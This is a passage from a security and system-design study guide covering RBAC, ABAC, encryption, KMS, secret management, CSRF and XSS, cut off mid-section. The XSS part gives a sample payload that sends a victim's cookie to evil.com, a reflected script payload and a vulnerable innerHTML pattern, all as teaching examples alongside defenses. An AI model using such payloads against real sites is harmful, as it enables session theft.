| **Fine** | `BILLING_READ`, `BILLING_WRITE`, `USER_DELETE` separately |

Fine-grained RBAC suits enterprise and regulated industries; coarse suits small products.

#### RBAC with JWT

Roles embedded at token issuance:

```json
{ "sub": "101", "roles": ["MANAGER"] }
```

Microservice loads permission matrix for `MANAGER` or trusts precomputed `permissions` claim — with stale-token trade-offs noted in 10.2.

#### RBAC vs ABAC

| | RBAC | ABAC |
|---|------|------|
| **Based on** | Static roles | Attributes + policies |
| **Complexity** | Lower | Higher |
| **Best for** | Org charts, admin UIs | Context rules, data classification |

Production systems often use **RBAC for coarse gates** and **ABAC for fine rules**.



---

### Pitfalls and design tips

- **Avoid role explosion** — too many narrowly defined roles recreate per-user permission sprawl.
- **Separate duties** — do not bundle unrelated powers in one role (e.g. approve + pay).
- **Do not rely on role name strings in code without a central matrix** — keep permission checks on permission constants, not `if role == "admin"`.
- **Re-sync JWT claims on role change** — or use short TTLs; fired admin's token is dangerous until expiry.
- **Kubernetes RBAC** is the interview classic — `Role`, `ClusterRole`, `RoleBinding` map users/service accounts to API verbs on resources.
- **Default for internal tools:** 3–5 roles + explicit permission table; grow fine-grained only when needed.

---

### Real-world example

**Kubernetes RBAC for a CI deploy bot**

1. Cluster admin creates `ClusterRole deployer` with rules: `apiGroups: ["apps"], resources: ["deployments"], verbs: ["get", "list", "update", "patch"]`.
2. `ServiceAccount ci-bot` in namespace `production` is bound via `RoleBinding` to `deployer`.
3. CI pipeline obtains a token for `ci-bot` and calls the Kubernetes API to patch a Deployment image.
4. API server authenticates the token, resolves bindings, checks RBAC — patch allowed.
5. Same token attempting `delete pods` — no verb in role → **403 Forbidden**.

Kubernetes documents this Role / RoleBinding model as its native RBAC — verifiable in any cluster's `kubectl auth can-i` checks.

---


### ABAC

#### Overview

A job title says you are a Manager, but policy also cares whether you are in the right department, accessing data during business hours, from a company laptop. **Attribute-based access control (ABAC)** evaluates those **attributes** — about the user, the resource, and the environment — instead of relying on a static role alone.

Technically, ABAC uses a **policy engine** that evaluates rules over attributes: `user.department`, `resource.classification`, `environment.ip`, `environment.time`. Decisions are **ALLOW** or **DENY** based on Boolean policy logic, often written in languages like Cedar, Rego (OPA), or XACML.

---

#### What problem it fixes

RBAC breaks down when access depends on **context**:

- Finance users may read Finance documents only.
- Managers may approve expenses only 09:00–18:00.
- High-risk logins from unknown countries are denied even for valid roles.
- Field-level privacy — hide `salary` from non-HR viewers.

Hard-coding such rules as hundreds of special roles becomes unmaintainable. ABAC centralizes **dynamic policies** that combine multiple conditions.

---

#### What it does

ABAC considers three attribute families:

| Family | Examples |
|--------|----------|
| **User** | department, clearance, title, location |
| **Resource** | owner, sensitivity, department, type |
| **Environment** | time, IP, device trust, risk score |

Policies express rules:

```text
IF user.role = "Manager"
AND resource.department = user.department
AND environment.time BETWEEN 09:00 AND 18:00
THEN ALLOW
ELSE DENY
```

Supports **object-level** (this order ID), **field-level** (mask salary), and **context-aware** (VPN-only) authorization.

---

#### How it works — the architecture inside

#### Policy engine flow

```text
Request + user attributes + resource attributes + environment
→ policy engine evaluates rules → ALLOW or DENY
```

```text
GET /orders/123
Attributes: user.id=A, resource.owner=A → ALLOW (ownership)
Attributes: user.id=B, resource.owner=A → DENY
```

#### Policy-based vs ad hoc checks

```text
Bad:  scattered if statements in every handler
Good: centralized policies in OPA/Cedar → same decision everywhere
```

#### Field-level example

```text
Customer record: name, email, salary

Policy: salary visible only if user.department = "HR"
Manager sees name, email; HR sees all fields
```

#### Centralized vs decentralized

| | Centralized (OPA sidecar) | Decentralized |
|---|---------------------------|---------------|
| **Pros** | One policy repo; consistent audits | No extra network hop |
| **Cons** | Latency; availability dependency | Drift between services |

```text
Microservice → POST /v1/data/authz/allow with JSON input → OPA → true/false
```

#### Combining RBAC + ABAC

```text
Step 1 RBAC: user must have role ANALYST (coarse gate)
Step 2 ABAC: resource.region must equal user.region (fine gate)
```



---

#### Pitfalls and design tips

- **Start with RBAC; add ABAC where context matters** — full ABAC day one is hard to test and audit.
- **Keep policies in version control** — treat Rego/Cedar like code; review and CI-test policy changes.
- **Watch evaluation latency** — complex policies per request may need caching with careful invalidation.
- **Define attribute schema** — missing `resource.owner` should default deny, not crash.
- **OPA (Open Policy Agent)** and **AWS Cedar** are production-grade engines worth naming in interviews.
- **Do not confuse ABAC with OAuth scopes** — scopes are coarse strings; ABAC evaluates rich attribute tuples.

---

#### Real-world example

**AWS IAM policy with attribute conditions (ABAC-style)**

1. S3 objects are tagged `Department=Finance` at upload.
2. IAM user Alice has tag `Department=Finance` on her principal.
3. IAM policy allows `s3:GetObject` only when `aws:PrincipalTag/Department` equals `s3:ResourceTag/Department`.
4. Alice reads `s3://corp-data/report-q1` tagged Finance — **allow**.
5. Bob tagged `Department=Engineering` requests the same object — **deny** despite both having generic `s3:GetObject` on the bucket ARN pattern.

AWS documents this **attribute-based access control** pattern with principal and resource tags — a verifiable cloud ABAC deployment.

---


<a id="106-encryption-at-rest-in-transit"></a>

## 10.6 Encryption at Rest & in Transit

### Overview

Sensitive papers belong in a locked filing cabinet, not on an open desk. **Encryption at rest** scrambles data before it lands on disk, database files, backups, or object storage so anyone who steals the drive or snapshot sees meaningless ciphertext without the key.

Technically, encryption at rest uses symmetric algorithms (usually **AES-256**) to transform plaintext into ciphertext at write time and reverse the process on read for authorized components holding the key. Keys themselves are rarely stored next to data — **envelope encryption** and **KMS** (10.11) protect data encryption keys with master keys.

---

### What problem it fixes

Storage media is copied, lost, and breached:

```text
Without encryption: attacker copies database file → reads salaries and emails in plaintext
With encryption:    attacker copies file → sees XJ29KSLA92M8PQR without the key
```

Encryption at rest addresses:

- **Stolen laptops and disks** — physical theft.
- **Backup exposure** — backups often live in more places than production DBs.
- **Cloud misconfiguration** — public snapshot of an encrypted volume still needs keys, but unencrypted snapshot is instant breach.
- **Compliance** — PCI-DSS, HIPAA, and GDPR commonly expect encryption of sensitive stored data.

It does **not** protect data **in transit** (10.10) or **in use** in memory — those need TLS and other controls.

---

### What it does

Encryption at rest:

1. **Encrypts** data before persistence (application, database engine, or storage layer).
2. **Decrypts** only for authorized readers with valid keys.
3. **Applies at varying granularity** — column, row, table, file, volume, or bucket.
4. **Pairs with key management** — rotation, access control, audit (KMS).

| Data state | Protected by |
|------------|--------------|
| **At rest** | This section — disk, DB, backups |
| **In transit** | TLS (10.10) |
| **In use** | Confidential computing, access control (emerging) |

---

### How it works — the architecture inside

#### Write and read paths

```text
Write: Application → encrypt(plaintext, DEK) → ciphertext → disk/DB
Read:  disk/DB → ciphertext → decrypt(ciphertext, DEK) → application
```

#### Symmetric encryption (AES)

Same secret key encrypts and decrypts — fast for large data.

```text
Plaintext → AES-256 + key → Ciphertext
Ciphertext → AES-256 + same key → Plaintext
```

**Common key sizes:** AES-128, AES-256 (enterprise default).

Asymmetric encryption (RSA) is too slow for bulk data; it typically wraps **keys**, not whole tables.

#### Granularity options

| Level | What is encrypted | Trade-off |
|-------|-------------------|-----------|
| **Column** | Email, SSN columns only | Selective; app must handle |
| **Table** | Entire payment table | Simpler; all-or-nothing |
| **TDE** | Database engine encrypts files on disk | Transparent to app |
| **Volume / bucket** | EBS volume, S3 bucket | Infrastructure-level |

**Transparent Data Encryption (TDE):** SQL Server, Oracle, PostgreSQL extensions encrypt data files automatically — application SQL unchanged.

#### Envelope encryption (preview)

```text
Data encrypted with DEK (data encryption key)
DEK encrypted with CMK (customer master key in KMS)
Store: ciphertext + encrypted_DEK
```

Detailed flow in 10.11 KMS.

#### Performance

AES hardware acceleration (AES-NI) makes overhead small for most workloads. Column-level encryption adds application CPU; TDE adds DB engine overhead — usually acceptable versus breach cost.



---

### Pitfalls and design tips

- **Encryption without key protection is theater** — keys in source code or config repos negate the benefit; use KMS.
- **Encrypt backups and replicas** — attackers target the weakest copy.
- **TDE protects disk, not privileged DB users** — DBA with full access still sees plaintext; combine with access control and column encryption for highly sensitive fields.
- **Plan key rotation** — envelope encryption lets you re-wrap DEKs without re-encrypting all data at once in some designs.
- **Cloud defaults:** enable S3 SSE-KMS, RDS encryption at create time (often cannot enable later without migration), EBS encrypted volumes.
- **Interview:** at rest = stored; in transit = TLS; do not conflate the two.

---

### Real-world example

**Amazon S3 with SSE-KMS**

1. Application uploads `payroll-2025-q1.csv` to bucket `corp-hr-data`.
2. S3 API call includes `ServerSideEncryption=aws:kms` and `SSEKMSKeyId=arn:aws:kms:…:key/abc`.
3. S3 requests a data key from **AWS KMS**, encrypts the object bytes, and stores ciphertext plus encrypted data key metadata.
4. Auditor with only S3 read but no `kms:Decrypt` on the CMK cannot read object contents.
5. Authorized HR app role has `s3:GetObject` and `kms:Decrypt` — S3 fetches object, KMS decrypts DEK, S3 returns plaintext to the app over HTTPS.

AWS documents SSE-KMS as server-side encryption at rest for S3 objects — a standard production pattern.

---


### Encryption in transit

#### Overview

Sending a postcard exposes your message to everyone along the route; a sealed courier envelope does not. **Encryption in transit** wraps data moving across networks — browser to server, API to API, app to database — so interceptors see useless ciphertext instead of passwords, tokens, and personal data.

Technically, **TLS (Transport Layer Security)** is the standard: asymmetric cryptography establishes trust and negotiates a shared **session key**, then symmetric **AES** encrypts bulk traffic for speed. **HTTPS** is HTTP over TLS. **mTLS** adds client certificates so both ends prove identity — common inside service meshes.

---

#### What problem it fixes

Unencrypted network traffic is readable by anyone on the path — compromised Wi‑Fi, ISP equipment, malicious hops, or tapped datacenter links.

```text
Without TLS: POST /login body password=secret123 visible in packet capture
With TLS:    same bytes appear as random noise without session keys
```

TLS also provides **integrity** (tampering detection) and **server authentication** (certificate proves you reached real `example.com`, not a phishing host).

---

#### What it does

Encryption in transit:

1. **Encrypts** request and response bodies and headers (except SNI and some metadata).
2. **Authenticates** the server (and optionally the client with mTLS).
3. **Detects tampering** via authenticated encryption and handshake verification.
4. **Applies everywhere data moves** — public internet, internal VPC (defense in depth), database wire protocol.

---

#### How it works — the architecture inside

#### TLS handshake (simplified)

```text
Client Hello     → supported ciphers, TLS version, random
Server Hello     → chosen cipher, certificate, random
Certificate      → server public key + CA signature
Key exchange     → client verifies cert → derives session key
Secure channel   → AES encrypts application data
```

```text
Note: "SSL certificate" in conversation usually means TLS certificate — SSL is legacy
```

#### HTTPS

```text
http://example.com  → no encryption
https://example.com → HTTP inside TLS tunnel
```

Browsers show padlock when certificate is valid and chain trusted.

#### Session keys and bulk encryption

Asymmetric crypto (RSA/ECDHE) is slow for large payloads. Handshake produces a symmetric **session key**; data plane uses **AES-GCM** or ChaCha20-Poly1305.

```text
Handshake (asymmetric) → session key → encrypt all HTTP messages (symmetric)
```

#### mTLS (mutual TLS)

| | TLS | mTLS |
|---|-----|------|
| **Server identity** | Verified | Verified |
| **Client identity** | Not verified | Verified via client certificate |

```text
Service A presents client cert → Service B validates against trusted CA → both directions encrypted
```

Used in: Kubernetes service mesh (Istio), internal banking APIs, zero-trust service communication.

#### TLS termination

```text
Internet client → HTTPS → load balancer (terminates TLS) → HTTP or mTLS → app servers
```

Centralizes certificate renewal (e.g. cert-manager + Let's Encrypt) and reduces per-app crypto load. Traffic **behind** the balancer should still be encrypted on untrusted networks.

#### Database connections

```text
Application → TLS wrapper → PostgreSQL / MySQL (sslmode=require)
```

Prevents credential and row data exposure on the DB network segment.



---

#### Pitfalls and design tips

- **Terminate TLS only on trusted network segments** — HTTP between LB and app in shared tenancy may need TLS or private network isolation.
- **Disable old TLS versions** — TLS 1.2+ only; SSLv3 and TLS 1.0 are broken.
- **Validate hostname against certificate SAN** — not just chain trust.
- **Rotate certificates before expiry** — automate with Let's Encrypt, cert-manager, or cloud ACM; expired certs cause outages.
- **HSTS** — `Strict-Transport-Security` header prevents SSL stripping on repeat visitors.
- **mTLS operational cost** — certificate issuance and rotation per service; service meshes automate this.
- **Default:** HTTPS everywhere public; mTLS or mesh for east-west microservice traffic in regulated environments.

---

#### Real-world example

**Let's Encrypt certificate on nginx**

1. Operator configures nginx for `https://shop.example.com` with a self-signed or missing cert — browsers warn.
2. **Certbot** runs ACME HTTP-01 challenge; Let's Encrypt CA verifies domain control.
3. Let's Encrypt issues a 90-day TLS certificate; Certbot installs it in nginx `ssl_certificate` path.
4. Customer POSTs checkout with card data — TLS 1.3 encrypts the body; packet capture shows encrypted records only.
5. Certbot cron renews at day 60; nginx reloads — no manual purchase workflow.

Let's Encrypt and nginx document this free automated HTTPS path used by millions of sites.

---


<a id="107-kms"></a>

## 10.7 KMS

### Overview

Encrypting files is useless if the key sits on a sticky note on the monitor. A **Key Management Service (KMS)** is the vault for cryptographic keys — it generates, stores, rotates, and audits use of keys so applications never embed secrets in code or config.

Technically, KMS exposes APIs for **encrypt**, **decrypt**, **generate data key**, and **sign** while key material stays in hardware-backed or HSM-protected storage. Applications use **envelope encryption**: encrypt data with a short-lived **DEK** (data encryption key), then ask KMS to encrypt the DEK with a **CMK** (customer master key).

---

### What problem it fixes

**Bad pattern:**

```text
const ENCRYPTION_KEY = "hardcoded-secret-in-repo"
```

Problems: key in Git history, same key everywhere, no rotation, no audit of who decrypted what, instant full breach if leaked.

KMS centralizes:

- **Secure generation** — cryptographically strong random keys.
- **Access control** — IAM policies on which service may decrypt which CMK.
- **Audit trail** — CloudTrail or equivalent logs every key use.
- **Rotation** — new key versions without application redeploy for data re-encryption strategies.

Encryption is only as strong as key handling — KMS addresses the weakest link.

---

### What it does

KMS manages the **key lifecycle**:

```text
Create → store → use (encrypt/decrypt) → rotate → disable → delete (with waiting period)
```

Responsibilities:

| Operation | Purpose |
|-----------|---------|
| **GenerateDataKey** | Produce DEK; return plaintext + ciphertext of DEK |
| **Encrypt / Decrypt** | Wrap small payloads (secrets, DEKs) under CMK |
| **Rotate** | New CMK version; old decrypts legacy data |
| **Policy** | Who may call which APIs on which keys |
| **Audit** | Log principal, time, operation |

Applications call KMS APIs; they do not read raw CMK bytes.

---

### How it works — the architecture inside

#### CMK and DEK

| Key | Role |
|-----|------|
| **CMK** | Long-lived master key in KMS; encrypts DEKs |
| **DEK** | Per-object or per-session key; encrypts actual data |

#### Envelope encryption flow

**Write:**

```text
1. App calls KMS GenerateDataKey → plaintext_DEK + encrypted_DEK
2. App encrypts file with plaintext_DEK (AES locally)
3. App stores encrypted_file + encrypted_DEK; discards plaintext_DEK from memory
4. KMS never sees the full file — only key operations
```

**Read:**

```text
1. App loads encrypted_file + encrypted_DEK
2. App calls KMS Decrypt(encrypted_DEK) → plaintext_DEK
3. App decrypts file locally
4. Discard plaintext_DEK after use
```

```text
Benefits: bulk crypto local and fast; master key never leaves KMS; CMK rotation re-wraps DEKs
```

**How to calculate — KMS envelope overhead sketch:**

```text
Given: 1,000 PII records/day, 2 KB each, AES-256-GCM local encrypt, KMS GenerateDataKey + Decrypt per record

Step 1 — data encrypted locally (fast):
  1,000 × 2 KB = 2 MB/day app CPU crypto — negligible with AES-NI

Step 2 — KMS API calls (cost + latency):
  write: 1,000 GenerateDataKey ≈ 1,000 × ~5–15 ms = 5–15 s KMS time/day
  read:  500 views × Decrypt(DEK) ≈ 2.5–7.5 s KMS time/day

Step 3 — vs naive Encrypt(whole blob) per object:
  2 KB through KMS Encrypt API — within limit but $$$ at scale; envelope keeps KMS off bulk data

Step 4 — DEK cache (5 min TTL, 80% read hit rate):
  Decrypt calls ≈ 500 × 20% = 100/day → ~0.5–1.5 s KMS time saved

Result: envelope = 2 KMS ops per object lifecycle; bulk crypto stays on app CPU

Sanity check: never send megabytes through KMS Encrypt — use GenerateDataKey + local AES;
             CloudTrail logs every Decrypt — budget API quotas for traffic spikes.
```

#### Key rotation and versioning

```text
CMK version 1 → encrypts DEKs until rotation
CMK version 2 → new encryptions
Old data: decrypt DEK with version 1 — still works
```

Automatic rotation (e.g. annual) limits blast radius of compromise.

#### Access control

```text
Policy on payment-key:
  Allow decrypt: payment-service role
  Deny decrypt:   analytics-service role
```

**Least privilege** — separate CMKs per domain (payments, PII, logs).

#### HSM backing

Cloud KMS often stores key material in **Hardware Security Modules** — tamper-resistant devices that prevent key export. FIPS 140-2 Level 3 HSMs are common in regulated workloads.



---

### Pitfalls and design tips

- **Never log plaintext DEKs or CMKs** — log key IDs only.
- **Use envelope encryption for large blobs** — do not send megabytes through KMS encrypt API (size limits and cost).
- **Separate keys per tenant or data class** — one compromised CMK does not decrypt everything.
- **Deletion waiting period** — scheduled key deletion is irreversible; ciphertext becomes permanent noise.
- **Cache DEKs briefly** — reduce KMS calls but limit exposure window in memory.
- **Cloud services:** AWS KMS, Google Cloud KMS, Azure Key Vault, HashiCorp Vault — same mental model.
- **Pair with encryption at rest (10.9)** — KMS is how keys are managed; SSE-KMS, RDS encryption, and TDE integrate with KMS.

---

### Real-world example

**AWS KMS envelope encryption for application-level PII**

1. Customer service uploads a support ticket with SSN; app calls `kms:GenerateDataKey` on CMK `alias/pii-key`.
2. KMS returns `Plaintext` (32-byte DEK) and `CiphertextBlob` (DEK encrypted under CMK).
3. App encrypts SSN with AES-256-GCM using plaintext DEK; stores `{ encrypted_ssn, encrypted_dek }` in DynamoDB.
4. Plaintext DEK zeroed from memory after write.
5. Agent views ticket — app loads row, calls `kms:Decrypt` on `encrypted_dek` (IAM allows `support-service` role only).
6. KMS logs decrypt in CloudTrail; app decrypts SSN in memory for display over HTTPS.

AWS KMS `GenerateDataKey` API documentation describes this exact envelope pattern used with RDS, S3, and custom application encryption.

---

<a id="108-secret-management"></a>

## 10.8 Secret Management

### Overview

Picture a hotel where every employee carries a master key taped to their badge and the spare is written on a whiteboard in the lobby. Anyone who photographs the board or copies a badge can walk into any room. Secret management is the opposite: one vault, named keys per door, a log of who borrowed what, and keys that expire or change on a schedule.

Technically, **secret management** is the lifecycle control of sensitive credentials — database passwords, API keys, TLS private keys, OAuth client secrets, JWT signing keys — through centralized storage, encrypted at rest, with access policies, versioning, rotation, and audit trails. Applications authenticate to a secret manager at runtime rather than reading credentials from source code or config files.

---

### What problem it fixes

Hardcoded or flat-file secrets create predictable failure modes:

- **Source code exposure** — a leaked repo or backup reveals `db.password=admin123` forever.
- **Rotation pain** — changing a password means redeploying every service that embeds it.
- **No accountability** — you cannot answer who read which credential and when.
- **Blast radius** — one compromised service file may contain keys for every downstream system.

Secret management moves credentials out of code into a dedicated store where access is scoped, logged, and revocable.

---

### What it does

A secret manager provides:

| Capability | What it means in practice |
|------------|---------------------------|
| **Secure storage** | Secrets encrypted at rest; often backed by a KMS or HSM for master keys |
| **Controlled retrieval** | Only authenticated workloads receive secrets they are authorized to read |
| **Static secrets** | Long-lived passwords and API keys with versioning for safe rotation |
| **Dynamic secrets** | Short-lived credentials generated on demand (e.g. one-hour DB user) |
| **Leases** | Automatic expiry on dynamic credentials — invalid after TTL |
| **Rotation** | Periodic or automatic replacement; apps pull the latest version |
| **Audit logging** | Every read, create, update, and delete is recorded |

Secret management is **not** the same as KMS: KMS protects **encryption keys**; a secret manager protects **credentials** (passwords, tokens, certificates). They often work together — the secret store encrypts payloads with KMS.

---

### How it works — the architecture inside

**Retrieval flow at application startup:**

```text
Application → authenticate (IAM role, K8s SA, mTLS) → request secret by name
  → policy engine checks identity + path → decrypt from encrypted store → return secret
  → application opens DB connection / signs JWT / calls external API
```

**Static vs dynamic secrets:**

```text
Static:   app requests "prod/db-password" → manager returns current version (v3)
Dynamic:  app requests "database/creds/orders" → manager creates temp user + password
          → returns credential with 1-hour lease → credential revoked at expiry
```

**Rotation with versioning:**

```text
db-password
  v1 (deprecated)  v2 (active)  v3 (staging)
Apps poll or receive push notification → switch to v3 → v1 disabled after grace period
```

**Least privilege in microservices:**

```text
Order service   → order-db-password only
Payment service → payment-db-password only
Inventory service → inventory-db-password only (cannot read payment secret)
```



**Containers and Kubernetes:** secrets are fetched at runtime via sidecar, CSI driver, or init container — never baked into image layers. Native `Secret` objects are base64-encoded, not encrypted by default; production systems usually integrate with Vault, AWS Secrets Manager, or GCP Secret Manager rather than storing plaintext equivalents in etcd.

---

### Pitfalls and design tips

- **Never** commit secrets to Git, Dockerfiles, Helm values in plain text, or shared docs — use references (`secretRef`) only.
- Prefer **dynamic secrets** for databases when the manager supports them; static passwords need disciplined rotation calendars.
- **Version pinning** during rotation: allow both old and new versions briefly so rolling deploys do not fail mid-cutover.
- Distinguish **secret manager vs KMS vs config server** — Config Server holds non-sensitive toggles; KMS holds DEKs/CMKs; secret manager holds credentials.
- Watch **secret sprawl** — hundreds of orphaned API keys; enforce naming conventions and ownership tags.
- Enable **TLS** on all secret retrieval APIs; cache secrets in memory with short TTL, not on disk.
- Interview angle: "How do you rotate DB passwords without downtime?" → dual-version support, staggered app restarts, or dynamic credentials with connection pool refresh.

---

### Real-world example

**AWS Secrets Manager + RDS:** An ECS task starts with an IAM task role that allows `secretsmanager:GetSecretValue` on `arn:...:secret:prod/orders-db-*` only. At boot, the task pulls the JSON secret `{"username":"orders_app","password":"..."}`, opens a connection pool, and never stores the password in the image. When ops triggers rotation, Secrets Manager creates a new password in RDS, updates secret version, and optionally invokes a Lambda to notify services. CloudTrail records every `GetSecretValue` with principal, time, and source IP — satisfying audit questions after a suspected credential leak.

---


<a id="109-web-application-threats"></a>

## 10.9 Web Application Threats

### Overview

Imagine you sign into your bank, then open a gossip blog. Unseen, the blog page contains a hidden form that submits a transfer from your account. Your browser helpfully attaches your bank session cookie because it thinks you are still "logged in" to the bank. **CSRF (Cross-Site Request Forgery)** is that trick: the attacker never steals your password; they abuse the browser's habit of sending your credentials automatically.

Technically, CSRF is a web vulnerability where a victim's browser performs an authenticated, **state-changing** request to a site where the victim is already logged in. The server trusts the session cookie and executes the action — transfer funds, change email, delete account — even though the user did not intend it from the attacker's page.

---

### What problem it fixes

Browsers automatically include cookies (and sometimes ambient auth) on cross-origin requests. Servers historically assumed: valid session cookie → legitimate user intent. That assumption breaks when any other site can cause the browser to **POST**, **PUT**, or **DELETE** to your API while the user is authenticated.

CSRF defenses restore the guarantee that state-changing requests carry proof they originated from **your** application's UI, not a third-party page.

---

### What it does

Protection mechanisms ensure forged cross-site requests fail:

| Defense | Mechanism |
|---------|-----------|
| **CSRF token** | Unpredictable token in form/header; server validates on each unsafe request |
| **SameSite cookies** | Limits when cookies ride along on cross-site navigation or subrequests |
| **Origin / Referer check** | Server rejects requests whose `Origin` or `Referer` is not the trusted site |
| **Double-submit cookie** | Token in cookie must match token in header/body |
| **Re-authentication** | Password or OTP again for high-impact actions |

Safe methods (**GET**, **HEAD**) should not change server state; CSRF targets **unsafe** methods that mutate data.

---

### How it works — the architecture inside

**Attack without protection:**

```text
1. User logs into bank.com → session cookie stored
2. User visits evil.com
3. evil.com:  or auto-submit POST form
4. Browser sends bank.com cookie with the request
5. Bank executes transfer — server sees valid session
```

**Defense with CSRF token:**

```text
1. User loads bank.com/transfer form
2. Server embeds CSRF token in page + sets cookie (optional double-submit)
3. Legitimate POST includes X-CSRF-Token header matching server-side session store
4. evil.com cannot read bank.com token (same-origin policy) → forged POST lacks token → 403
```

**SameSite behavior:**

| Value | Cross-site POST cookie sent? |
|-------|------------------------------|
| `Strict` | No — strongest; may break some legitimate deep links |
| `Lax` | Only on top-level safe navigations (default in modern browsers) |
| `None` | Yes — requires `Secure`; use only when cross-site cookies are required |



**Auth model and CSRF risk:**

| Auth style | CSRF risk |
|------------|-----------|
| Session cookie | High — cookie sent automatically |
| JWT in `Authorization` header (SPA) | Low — attacker page cannot set custom headers on cross-origin requests without CORS |
| JWT in cookie | High again — same as session cookies |

CSRF primarily affects **browser-based, cookie-session** apps. Service-to-service calls with API keys or mTLS are not CSRF targets.

---

### Pitfalls and design tips

- CSRF tokens must be **per-session or per-request**, unpredictable, and validated server-side — not only on login.
- `SameSite=Lax` helps but is not a solo fix for all flows (e.g. POST from embedded contexts).
- **Origin checks** can fail when proxies strip headers; treat missing `Origin` on POST carefully.
- Do not use **GET for state changes** — bookmarked or ``-triggered URLs become exploit gadgets.
- Pair CSRF defense with **HTTPS** everywhere; tokens in cleartext HTTP are stealable via network attackers.
- If you move auth to `localStorage` + Bearer token, CSRF drops but **XSS becomes the critical risk** — design holistically.
- Frameworks (Django, Rails, Spring Security) ship CSRF middleware; disabling it for "API convenience" on cookie-auth endpoints is a common mistake.

---

### Real-world example

A classic **bank transfer CSRF** (responsible disclosure patterns in OWASP training): the transfer endpoint accepts `POST /transfer` with body `to=attacker&amount=10000`. An attacker hosts a page with a hidden form targeting that URL. A logged-in victim visiting the page triggers submission; the browser attaches the `JSESSIONID` cookie. With **Spring Security CSRF** enabled, the form must include `_csrf` token from the server-rendered page — the attacker's site cannot obtain it, so the request is rejected with 403. SameSite=Lax provides an additional layer by withholding the cookie on cross-site POST from evil.com in supporting browsers.

---


### XSS

#### Overview

A comment box on a trusted news site is like a guest writing on the lobby whiteboard — except an attacker writes instructions the building's staff robot will obey literally. **XSS (Cross-Site Scripting)** is when user-supplied text is treated as code: the victim's browser runs the attacker's JavaScript in the context of your site, with access to that site's cookies, DOM, and APIs.

Technically, XSS occurs when untrusted input is stored, reflected, or processed into the DOM without proper encoding or isolation, so `<script>` or event-handler payloads execute as first-party code. The browser cannot distinguish attacker script from your own bundle.

---

#### What problem it fixes

Web pages mix **data** and **code** (HTML, JavaScript, CSS). When user input lands in the wrong context — inside HTML, inside a script block, inside a URL — special characters change meaning from "text to display" to "instructions to run." XSS fixes the boundary: untrusted strings must be encoded for their sink context or kept out of executable paths entirely.

---

#### What it does

Defenses layer from input to browser enforcement:

| Layer | Action |
|-------|--------|
| **Output encoding** | Escape `<`, `>`, `"`, `'` for HTML context so `<script>` renders as text |
| **Input validation** | Reject or normalize unexpected formats (length, charset, allowlists) |
| **Sanitization** | For rich text, strip dangerous tags/attributes with a vetted library (DOMPurify) |
| **CSP** | `Content-Security-Policy` restricts which scripts may run — blocks inline injection |
| **HttpOnly cookies** | `document.cookie` cannot read session ID — limits session theft after XSS |
| **Safe APIs** | `textContent` instead of `innerHTML`; avoid `eval`, `document.write` |

Three XSS variants differ by where payload lives:

| Type | Where payload lives | Who is affected |
|------|---------------------|-----------------|
| **Stored** | Database (comments, profiles) | Every viewer of the page |
| **Reflected** | URL/query echoed in response | Victim who clicks crafted link |
| **DOM-based** | Client-side JS writes input to DOM | Victim; server may never see payload |

---

#### How it works — the architecture inside

**Stored XSS attack flow:**

```text
Attacker posts comment: <script>fetch('https://evil.com/?c='+document.cookie)</script>
Server stores raw HTML in DB → page renders comment unescaped → victim loads page
Browser executes script as news.com origin → session exfiltrated if not HttpOnly
```

**Reflected XSS:**

```text
GET /search?q=<script>alert(1)</script>
Response: Results for: <script>alert(1)</script>  (unescaped)
Victim clicks link → immediate execution
```

**DOM-based XSS:**

```javascript
// Vulnerable pattern
document.getElementById('out').innerHTML = location.hash.slice(1);
// Attacker URL: https://app.com/#
```

**Defense pipeline:**

```text
